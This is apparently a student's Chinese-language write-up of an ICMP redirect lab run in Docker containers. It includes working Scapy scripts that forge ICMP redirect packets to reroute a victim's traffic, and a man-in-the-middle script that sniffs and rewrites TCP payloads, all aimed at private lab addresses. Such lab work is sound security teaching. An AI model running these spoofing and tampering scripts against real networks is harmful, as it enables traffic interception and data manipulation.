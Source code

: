 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# ICMP Redirect

!!! warning "在 Ubuntu 24.04 中的改动"

	如果直接在 24.04 中启动实验容器，会遇到：
	
	![](../../../../../assets/Pasted%20image%2020250513172909.png)
	
	> 这是因为 `sysctls` 块通常用于设置容器全局的内核参数，而像 `eth0` 这样的接口是在容器启动并连接到网络之后才确定的。Docker 为了更精确地控制网络接口相关的参数，要求这类配置通过特定的驱动选项来传递
	> 
	> —— Gemini 2.5 Pro
	
	因此我们要对 docker-compose.yml 进行如下修改：
	
	```yaml
	sysctls: 
		- net.ipv4.ip_forward=1 
		- net.ipv4.conf.all.send_redirects=0 
		- net.ipv4.conf.default.send_redirects=0 
		# 移除: - net.ipv4.conf.eth0.send_redirects=0 
	privileged: true
	volumes: 
		- ./volumes:/volumes 
	networks: 
		net-10.9.0.0: 
			ipv4_address: 10.9.0.111 
	command: bash -c "
		 # 在容器启动后尝试设置 eth0 的参数 
		 sysctl -w net.ipv4.conf.eth0.send_redirects=0
		 && ip route add 192.168.60.0/24 via 10.9.0.11 
		 && tail -f /dev/null 
		 "
	```
	
	重新启动容器即可进行接下来的实验

## 任务 1：发起 ICMP 重定向攻击

在受害者容器 `victim-10.9.0.5` 中运行 `ip route`，输出如下：

![](../../../../../assets/Pasted%20image%2020250513174214.png)

在攻击者容器中编写代码如下：

```python title="icmp_redirect.py"
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
# Type 5 表示重定向, Code 1 表示主机重定向
icmp = ICMP(type = 5, code = 1)
# 在 ICMP 负载中设置网关地址 (恶意路由器)
icmp.gw = "10.9.0.111"

# ICMP 重定向包必须携带触发它的原始 IP 数据包
ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

首先在受害者容器中显示路由缓存并清空：

![](../../../../../assets/Pasted%20image%2020250513174805.png)

保持在受害者容器中 `ping 192.168.60.5`，然后在攻击者容器中运行代码，并在受害者容器中进行 traceroute 操作：

![](../../../../../assets/Pasted%20image%2020250513192753.png)

会发现受害者容器的路由已经改变

- 问题 1：修改代码如下：

```python
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code = 1)
icmp.gw = "192.168.60.6"

ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

同上理运行代码，能得到：

![](../../../../../assets/Pasted%20image%2020250513193209.png)

可以看到没能实现攻击

- 问题二：修改代码如下：

```python
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code = 1)
icmp.gw = "10.9.0.99"

ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

同上理运行代码，能得到：

![](../../../../../assets/Pasted%20image%2020250513193544.png)

还是没能实现攻击

- 问题三：在恶意路由器容器中设置：

```bash
sysctl -w net.ipv4.conf.all.send_redirects=1
sysctl -w net.ipv4.conf.default.send_redirects=1
sysctl -w net.ipv4.conf.eth0.send_redirects=1
```

然后重新发起正确的 ICMP 重定向攻击，得到：

![](../../../../../assets/Pasted%20image%2020250513195945.png)

仍然是不能实现攻击的
***
## 任务 2：发起 MITM 攻击

首先在恶意路由器上禁用 IP 转发：

![](../../../../../assets/Pasted%20image%2020250513201025.png)

查看受害者容器的 MAC 地址：

![](../../../../../assets/Pasted%20image%2020250513201728.png)

保持受害者容器 `ping 192.168.60.5`，然后在攻击者容器中运行 `icmp_redirect.py`，在恶意路由器上编写如下代码并运行：

```python title="mitm.py"
from scapy.all import *

def spoof_pkt(pkt):
	newpkt = IP(bytes(pkt[IP]))
	del(newpkt.chksum)
	del(newpkt[TCP].payload)
	del(newpkt[TCP].chksum)
	
	if pkt[TCP].payload:
		data = pkt[TCP].payload.load
		print("*** %s, length: %d" % (data, len(data)))
		
		newdata = data.replace(b'BruceJin', b'AAAAAAAA')
		
		send(newpkt / newdata)
	else:
		send(newpkt)
	
f = 'tcp and ether src 42:16:51:ac:9e:0c'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

在目标容器 192.168.60.5 上启动 netcat 服务，并在受害者容器中连接到服务器，输入名字，会发现变成了 AAAAAAAA：

![](../../../../../assets/Pasted%20image%2020250513202209.png)

![](../../../../../assets/Pasted%20image%2020250513202218.png)

说明攻击成功

- 问题 4：我们只需要过滤出从 victim 到 host 的数据流量，因为我们就是要在这里将数据篡改使得 host 收到的是错误信息即可
- 问题 5：我们把过滤条件换成 A 的 IP 地址：

```python
from scapy.all import *

def spoof_pkt(pkt):
	newpkt = IP(bytes(pkt[IP]))
	del(newpkt.chksum)
	del(newpkt[TCP].payload)
	del(newpkt[TCP].chksum)
	
	if pkt[TCP].payload:
		data = pkt[TCP].payload.load
		print("*** %s, length: %d" % (data, len(data)))
		
		newdata = data.replace(b'BruceJin', b'AAAAAAAA')
		
		send(newpkt / newdata)
	else:
		send(newpkt)
	
f = 'tcp and src host 10.9.0.5'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

同样也可以达到效果：

![](../../../../../assets/Pasted%20image%2020250513203353.png)

![](../../../../../assets/Pasted%20image%2020250513203405.png)

但是会发现 mitm.py 这里一直在发包：

![](../../../../../assets/Pasted%20image%2020250513203442.png)

这是因为它捕获到了自己发送的报文，发送完又捕获到了，陷入了死循环
